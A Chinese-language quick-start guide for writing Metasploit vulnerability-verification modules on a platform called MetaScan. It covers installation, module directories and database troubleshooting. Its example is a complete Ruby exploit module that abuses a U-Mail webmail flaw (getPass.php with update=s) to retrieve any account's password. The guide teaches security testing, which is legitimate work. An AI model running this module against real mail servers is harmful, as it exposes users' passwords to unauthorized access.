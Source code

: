 ﻿快速入门
========

简介
^^^^

MetaScan漏洞验证平台基于metasploit-framework框架而推，基于这个框架，你可以编写出属于你自己的漏洞验证模块，编写模块的相关说明，此文档将做详细的描述，同时我们也会奉上例子供您参考。期待您的加入，让我们一同成为安全牛。

环境配置
^^^^^^^^

**1. 下载程序**

磨刀不误砍柴工，在写模块之前需要搭建好相关环境。如果你是个勤劳的白帽子，我们建议您在*nix系统中完整的安装一次Metasploit，有助于对该框架的多一些了解，不过，熟悉kali的人大都知道系统自身带有现成的环境。Metasploit和Kali Linux的相关下载地址参考如下：

* `Metasploit境内官方下载 <http://www.metasploit.cn/thread-3-1-1.html>`_
* `Metasploit境外官方下载 <http://>`_
* `Kali Linux境内官方下载 <http://>`_
* `Kali Linux境外官方下载 <https://www.kali.org/downloads/>`_

**2. 安装程序**

Metasploit因存在windows和linux两个版本，windows下的安装方式较为常规，此处只介绍在linux系统下的安装方法。

a、添加执行权限

64位::

    chmod +x /path/to/metasploit-latest-linux-x64-installer.run

32位::

    chmod +x /path/to/metasploit-latest-linux-installer.run

b、以root权限运行安装程序

64位::

    sudo /path/to/metasploit-latest-linux-x64-installer.run

32位::

    sudo /path/to/metasploit-latest-linux-installer.run

c、在出现Metasploit的安装窗口之后，均按默认选项执行并单击‘Forward’即可完成安装。
 
.. note::

    编写Metaplosit模块所使用的语言是ruby， Metasploit和Kali Linux在安装完成后均包含了需要的ruby环境，用户可以直接进行相关操作，至于IDE以及Metasploit的两个不同平台的版本选择，此处不做推荐，可以根据自身熟悉情况而定。

**3. 相关目录**

进入Metasploit的目录::

    cd /opt/metasploit/apps/pro/msf3/modules/exploits

.. note::
    该目录存放的主要是漏洞验证相关的模块，用户所写的相关漏洞验证模块均存放在此目录下，感兴趣的白帽子也可以写一些工具性的模块，工具性的模块主要存放在/opt/metasploit/apps/pro/msf3/modules/auxiliary目录中，但类似这些模块均不在此文档中做说明，用户可自行研究。

编写模块
^^^^^^^^

**1. 编写规范**

参考如下:

    https://ruby-china.org/wiki/coding-style

**2. 示例参考**

以乌云上的漏洞来源为例子：http://www.wooyun.org/bugs/wooyun-2010-061894（用户在写模块时，可自行从网上搜索漏洞）

U-Mail邮件系统权限设置问题导致任意用户密码可越权查看，指定为一个已存在的邮箱账号即可查看任意账户密码。

新建一个新的利用模块umail_pass.rb
::

    cd /opt/metasploit/apps/pro/msf3/modules/exploits
    vi umail_pass.rb

示例代码如下::

    #encoding:utf-8
    require 'msf/core'
    class Metasploit3 < Msf::Exploit::Remote
      Rank = ExcellentRanking
      include Msf::Exploit::Remote::HttpClient
    
      def initialize(info={})
        super(update_info(info,
            'Name'           => "U-Mail System Unauthorized Access Vulnerability",
            'Description'    => %q{
              　　U-Mail邮件系统权限设置问题导致任意用户密码可越权查看，当updata参数的值为s，只需将email参数的值指定为一个已存在的邮箱账号即可查看任意账户密码。
            },
            'License'        => MSF_LICENSE,
            'Author'         =>
              [
              'Rain'    #Metasploit-CNNS
            ],
            'Platform'        => [ 'php' ],
            'Arch'           => ARCH_PHP,
            'Targets'        =>[[ 'U-Mail', { }]],
            'Privileged'     => false,
            'DisclosureDate' => "Apr 11 2011",
            'DefaultTarget'  => 0))
        register_options(
          [
            OptString.new('RHOST', [true, 'The DOMAIN', '']), 
            OptString.new('RPORT', [true, 'The port', '80']),
            OptString.new('TARGETURI', [true, 'The base path to U-Mail', '/webmail/']),
            OptString.new('EMAIL', [true, 'The email to U-Mail', '']),
          ], self.class)
      end
    
      def exploit
        begin
    	    res = send_request_cgi( {
    	        'method' => "GET",
    	        'uri'    => normalize_uri(datastore['TARGETURI']) + "/getPass.php?update=s&email=#{datastore['EMAIL']}"
    	      }, 20)
        rescue ::Rex::ConnectionRefused, ::Rex::HostUnreachable, ::Rex::ConnectionTimeout
        rescue ::Timeout::Error, ::Errno::EPIPE
        end
          body_data = res.body.force_encoding('UTF-8')
          if body_data =~ /你的密码是/
            data = body_data.scan(/你的密码是\<\/p\>\<p\>\<center\>\<font color=red\>(.*?)\<\/font\>/)
            if data and data.first and data.first.first
              print_good("---------账号--------\n邮箱 = #{datastore['EMAIL']}, 密码 = #{data.first.first}", "good")
            else 
              print_error("漏洞利用失败！")
            end
          else
            print_error("漏洞利用失败！")
          end
      end
    end


常见问题
^^^^^^^^

``问题1``：使用search命令时返回如下内容：

.. image:: image/1.4.1.png

``解决1``：检查数据库的连接
在msf终端中查看postgresql的连接状态
db_status
若显示信息如下图所示，则表示数据库连接异常

.. image:: image/1.4.2.png

查看postgresql数据库服务是否开启
::

    ps -aux | grep -i postgresql 或 service postgresql status

查看postgresql端口情况
::

    netstat -tnpl | grep postgresql 或 netstat -tnpl | grep postgres

若服务和端口均不存在，则需要手动开启其服务
::

    service postgresql start 或 /etc/init.d/postgresql-*.* start	(请根据自身情况选择对应的版本)
	
之后退出msf终端，并再次msfconsole进入查看状态，若仍然未连接，则查看Metasploit的数据库配置文件之后，在msf终端下手动连接

Metasploit默认安装的情况下其数据库配置文件所在位置为::

    /opt/metasploit/apps/pro/ui/config/database.yml
	
手动连接命令为::

    db_connect username:password@127.0.0.1/dbname
